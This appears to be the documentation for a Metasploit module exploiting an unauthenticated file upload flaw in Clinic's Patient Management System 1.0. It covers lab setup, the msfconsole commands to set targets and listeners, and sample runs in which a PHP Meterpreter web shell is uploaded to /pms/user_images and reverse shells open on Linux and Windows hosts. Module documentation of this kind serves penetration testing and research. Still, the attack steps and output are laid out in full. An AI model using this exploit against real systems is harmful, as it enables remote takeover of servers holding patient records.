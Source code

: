 ## Description
The Clinic's Patient Management System (CPMS) 1.0 is vulnerable to unauthenticated Remote Code Execution (RCE) due to a file upload vulnerability. This exploit allows an attacker to upload arbitrary files, such as a PHP web shell, which can then be executed remotely. The exploitation occurs because of a misconfiguration in the server, specifically a lack of file validation for uploads and the presence of a directory listing feature in `/pms/user_images`. This enables an attacker to upload a PHP file and access it via a publicly accessible URL, executing arbitrary PHP code.

## Verification Steps

### Vulnerable Application Installation Setup
1. Install Clinic's Patient Management System 1.0 on your web server.
   - Download the Web Application from [here](https://www.sourcecodester.com/download-code?nid=15453&title=Clinic%27s+Patient+Management+System+in+PHP%2FPDO+Free+Source+Code)
	- For **Windows**
		- [ ] Open your XAMPP Control Panel and start Apache and MySQL.
		- [ ] Extract the downloaded source code zip file.
		- [ ] Copy the extracted source code folder and paste it into the XAMPP's "htdocs" directory.
		- [ ] Browse the PHPMyAdmin in a browser. i.e. http://localhost/phpmyadmin
		- [ ] Create a new database naming `pms_db`.
		- [ ] Import the provided SQL file. The file is known as pms_db.sql located inside the database folder.
		- [ ] Browse the Clinic Patient Management System in a browser. i.e. http://localhost/pms/

	- For **Linux**
		- [ ] Start Apache2 & MySQL with the command `sudo systemctl start apache2 && sudo systemctl start mysql`
		- [ ] Install PHPMyAdmin with the command `sudo apt install phpmyadmin -y`
		- [ ] Edit `/etc/apache2/apache2.conf` by appending this line: `Include /etc/phpmyadmin/apache.conf`
		- [ ] Extract the downloaded source code zip file into "/var/www/html" directory
		- [ ] Next steps are similar to the ones for Windows, so follow that
   
2. Start `msfconsole` and load the exploit module:
   ```bash
   msfconsole
   use exploit/multi/http/clinic_pms_fileupload_rce
   ```

3. Set the required options:
   ```bash
   set rport <port>
   set rhost <ip>
   set targeturi /pms
   ```

4. Check if the target is vulnerable:
   ```bash
   check
   ```

   If the target is vulnerable, you will see a message indicating that the target is susceptible to the exploit:
   ```
   [+] <IP> The target is vulnerable.
   ```

5. Set up the listener for the exploit:
   ```bash
   set lport <port>
   set lhost <ip>
   ```

6. Launch the exploit:
   ```bash
   exploit
   ```

7. If successful, you will receive a PHP Meterpreter shell.

## Scenarios

### Clinic's Patient Management System on a Linux Target
```bash
msf exploit(multi/http/clinic_pms_fileupload_rce) > check
[*] Checking if target is vulnerable...
[+] 127.0.0.1:80 - The target is vulnerable.

msf exploit(multi/http/clinic_pms_fileupload_rce) > exploit
[*] Started reverse TCP handler on 192.168.1.104:4444 
[*] Detected OS: linux
[*] Target is Linux/Unix. Using PHP Meterpreter payload with unlink_self.
[*] Uploading PHP Meterpreter payload as zuX7FDRe.php...
[+] Payload uploaded successfully!
[*] Executing the uploaded shell at /pms/user_images/1734340436zuX7FDRe.php...
[*] Sending stage (40004 bytes) to 192.168.1.104
[*] Meterpreter session 1 opened (192.168.1.104:4444 -> 192.168.1.104:48290) at 2024-12-16 14:43:59 +0530

meterpreter > sysinfo
Computer    : kali
OS          : Linux kali 6.11.2-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.11.2-1kali1 (2024-10-15) x86_64
Meterpreter : php/linux
meterpreter >
```

### Clinic's Patient Management System on a Windows Target
```bash
msf exploit(multi/http/clinic_pms_fileupload_rce) > check
[*] Checking if target is vulnerable...
[+] 192.168.1.103:80 - The target is vulnerable.

msf exploit(multi/http/clinic_pms_fileupload_rce) > exploit
[*] Started reverse TCP handler on 192.168.1.104:4444 
[*] Detected OS: winnt
[*] Target is Windows. Using standard PHP Meterpreter payload.
[*] Uploading PHP Meterpreter payload as lgTprVq5.php...
[+] Payload uploaded successfully!
[*] Executing the uploaded shell at /pms/user_images/1734341267lgTprVq5.php...
[*] Sending stage (40004 bytes) to 192.168.1.103
[*] Meterpreter session 2 opened (192.168.1.104:4444 -> 192.168.1.103:60615) at 2024-12-16 14:57:43 +0530

meterpreter > sysinfo
Computer    : DESKTOP-VE9J36K
OS          : Windows NT DESKTOP-VE9J36K 10.0 build 19045 (Windows 10) AMD64
Meterpreter : php/windows
meterpreter >
```

## Options
- `TARGETURI`: (Required) The base path to the Clinic Patient Management System (default: `/pms`).
- `LISTING_DELAY`: (Optional) The time to wait before fetching the directory listing after uploading the shell (default: `2` seconds).
